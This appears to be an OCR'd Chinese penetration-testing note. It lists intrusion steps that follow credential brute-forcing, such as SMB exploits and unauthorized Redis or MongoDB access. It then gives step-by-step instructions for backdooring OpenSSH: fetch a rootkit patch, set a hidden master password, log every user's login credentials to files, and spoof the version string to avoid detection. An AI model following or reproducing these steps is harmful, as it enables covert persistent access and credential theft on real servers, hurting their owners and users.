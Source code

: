    b) 系统入侵  

   ​    i. SSH 破解后登录操作  

   ​    ii. RDP 破解后登录操作  

   ​    iii. MSSQL破解后远控操作  

   ​    iv. SMB远程命令执行（MS08-067、MS17-010、CVE-2017-7494）  

   c) 典型应用  

   ​    i. Mail暴力破解后信息挖掘及漏洞利用  

   ​    ii. VPN暴力破解后绕过边界  

   ​    iii. Redis 未授权访问或弱口令可导ssh公钥或命令执行  

   ​    iv. Rsync 未授权访问类  

   ​    v. Mongodb未授权访问类  
  
   ​    vi. Elasticsearch命令执行漏洞  

   ​    vii. Memcache未授权访问漏洞  

   ​    viii. 服务相关口令（mysql ldap zebra squid vnc smb）  
  

## 举例 ssh 后门
  
### 安装步骤：  

http://core.ipsecs.com/rootkit/patch-to-hack/0×06-openssh-5.9p1.patch.tar.gz  
http://ftp.eu.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz  
安装前首先  
ssh -V  
[root@vincent tmp]# ssh -V  
OpenSSH_5.3p1, OpenSSL 1.0.1e-fips 11 Feb 2013  
记录下原来ssh版本信息，免得安装后一看就版本不一样了  
``` bash
tar zxvf openssh-5.9p1.tar.gz
tar zxvf 0x06-openssh-5.9p1.patch.tar.gz
cd openssh-5.9p1.patch/
cp sshbd5.9p1.diff ../openssh-5.9p1
cd ../openssh-5.9p1
patch < sshbd5.9p1.diff //patch 后门
```
vi includes.h //修改后门密码，记录文件位置  
``` c
/*
+#define ILOG "/tmp/ilog" //记录登录到本机的用户名和密码
+#define OLOG "/tmp/olog" //记录本机登录到远程的用户名和密码
+#define SECRETPW "123456654321" //你后门的密码
*/
```
vi version.h //修改SSH_VERSION，改成原来的OpenSSH_5.3p1, OpenSSL 1.0.1e-fips 11 Feb 2013  
![](../pictures/sshdversion.png)  
先安装所需环境不然会报错
```
yum install -y openssl openssl-devel pam-devel
// apt-get install openssl libpam0g-dev  libkrb5-dev
```
